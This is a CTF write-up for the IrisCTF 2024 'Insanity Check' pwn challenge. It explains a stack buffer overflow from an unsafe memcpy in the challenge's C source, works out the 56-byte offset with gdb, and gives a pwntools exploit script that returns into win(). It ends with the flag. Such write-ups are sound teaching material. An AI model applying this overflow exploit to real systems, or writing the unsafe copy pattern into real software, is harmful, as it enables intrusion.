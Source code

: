 ```yaml
---
title: Insanity Check
author: capang
date: 2024-01-09 09:30:00 +0800
categories: [Writeups, PWN]
tags: [irisctf 2024]
math: true
mermaid: true
---
```


# Overview

The unsafe `memcpy` usage in the `main()` function causes Buffer Overflow which causes us being able to overwrite the RSP and return to the targeted address `win()` function. However, our input will only causes Buffer Overflow but the predefined `suffix` in the `main()` function will be populated in RSP. Turns out the targeted function `win()` address is the same value as the string `.com`    

# File Analysis

## Security checking

```bash
vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c2d6acffbfd9fd36c0a8089feffe3ce53f3eabba, for GNU/Linux 4.4.0, not stripped
```

```python
checksec --file vuln
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x40000000)
```

### Key Points

- possible buffer overflow
- function address not randomized

## Checking the source code

```C 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void rstrip(char* buf, const size_t len) {
    for (int i = len - 1; i >= 0; i--)
        if (buf[i] == '\n') {
            buf[i] = '\0';
            break;
        }
}

const char suffix[] = "! Welcome to IrisCTF2024. If you have any questions you can contact us at test@example.com\0\0\0\0";

int main() {
    char message[128];
    char name[64];
    fgets(name, 64, stdin);
    rstrip(name, 64);

    strcpy(message, "Hi there, ");
    strcpy(message + strlen(message), name);
    memcpy(message + strlen(message), suffix, sizeof(suffix));

    printf("%s\n", message);
}

__attribute__((section(".flag")))
void win() {
    __asm__("pop %rdi");
    system("cat /flag");
}
```

### Target function

Found a target function which is `win()`

```
0x000000006d6f632e  win
```

### Vulnerabilities

The user needs to input max 64 Characters
However unsafe memcpy usage in the `main()` function resulting in buffer overflow

```C
strcpy(message, "Hi there, ");
strcpy(message + strlen(message), name);
memcpy(message + strlen(message), suffix, sizeof(suffix));
```

```
len("Hi there, ") = 10
len(input) = 64 max
len(suffix) = 94
total = 160
```

Buffer overflow can occur

## Exploitation

`0x000000006d6f632e  win` is the address of the win() function
`unhex(0x000000006d6f632e) = moc.`
In the suffix there is '.com' which we can overwrite the RSP with it

### Finding the offsets

To find the offsets we need to use debugger, in my case we use gdb-pwndbg

First we need to input max number of char

```python
*RSP  0x7fffffffdce8 ◂— 'example.com' or 0x2e656c706d617865
```

RSP were populated with 'example.com'. To have only .com in the RSP, we need to substract 'example'. Which is 64 - 7 = 57

```python
Invalid address 0x6d6f632e65 -> e.com
```

Opps, we need another more. thus the offsets is 64-8 = 56. We can craft our payload using PWNTOOLS or manually.

```exploit.py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())
# Set up pwntools for the correct architecture
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# libc = elf.libc
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
io = start()

payload = flat(
    b'A' * 56,
    )


io.sendline(payload)
print(io.recv())
io.interactive()
```

![Flag Picture](/assets/img/writeups/flag-insanity-check.png)

irisctf{c0nv3n13nt_symb0l_pl4cem3nt}


